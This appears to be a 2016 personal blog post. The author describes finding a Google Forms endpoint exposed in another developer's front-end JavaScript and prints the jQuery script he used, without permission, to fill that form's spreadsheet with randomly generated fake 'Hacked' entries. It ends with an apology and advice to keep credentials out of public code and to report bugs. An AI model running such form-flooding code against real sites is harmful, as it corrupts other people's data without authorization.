 ```yaml
---
title: Sorry, I hacked you.
date:   2016-07-19 12:41am
categories: [javascript]
tags: [javascript]
---
```


My biggest concern in developing a website, especially in the current role I have, is to worry about how well a site will perform and how secure it will be. Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his. I like his work so I was intrigued into how he wrote his backend for the form since he is a front-end developer. His credentials of his backend was in his JS.

```javascript
function postContactToGoogle(f) {

  var email = f.find('.form-email').val();
  var name = f.find('.form-name').val();

  $.ajax({
    url: "https://docs.google.com/forms/d/jeberish-google-id/formResponse",
    data: {
      "entry_1111111111": email,
      "entry_1111111117": name
    },
    type: "POST",
    dataType: "xml",
    statusCode: {
      0: function() {
        window.location.replace("/path/thanks");

      },
      200: function() {
        window.location.replace("/path/thanks");
      }
    }
  });
}
```

So I looked at this telling myself it was wrong, or at least there had to be a better way of doing something like that.  

I blew up the database(or in this case to a google excel doc) as a challenge to myself to see if I was really right.

```javascript
function rText(){
    var text = "";
    var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for( var i=0; i < 5; i++ ) {
      text += possible.charAt(Math.floor(Math.random() * possible.length));
    }
    return text;
}

function generateEmail(){
  var username, email,full_email;
  username = 'HueBin_';
  email = 'Hacked';
  full_email = username + rText() + '@'+ rText() + email+'.com';
  return full_email;
}

function postContactToGoogle() {

  $.ajax({
    url: "https://docs.google.com/forms/d/jeberish-google-id/formResponse",
    data: {
      "entry_1111111111": generateEmail(),
      "entry_1111111117": "HueBin_",
    },
    type: "POST",
    dataType: "xml",
    crossDomain : true,
    statusCode: {
      0: function(data) {
        console.log("BAD!",data);

      },
      200: function(data) {
        console.log("GOOD",data);
      }
    }
  });
}


$(function(){
  var num = 1;
    for (var i = 0; i < num; i++) {
      setTimeout(postContactToGoogle(), 50000); // yes thats 50,000!
    }
});
```

this posted info into the database that looked simular to this:

`name: HueBun_,Email:HueBin_piMt6@vwq4WHacked.com`

`name: HueBun_,Email:HueBin_f7Txq@pzLm6Hacked.com`

`name: HueBun_,Email:HueBin_YBTNf@TluieHacked.com`

`name: HueBun_,Email:HueBin_QYqVm@jYWuUHacked.com`

I wrote an email stating that I was  really really sorry about it.  More so, I meant to contact him sooner, but I just entered another year in my life and I took the weekend off from electronics (mainly because of beer)

conclusion: don't smoke crack! No, when putting anything out in to the publics eyes, do not put the keys to the castle out there for everyone to see.  Also, don't go my route. Instead inform of the person of potential bugs rather than acting on exploiting them.
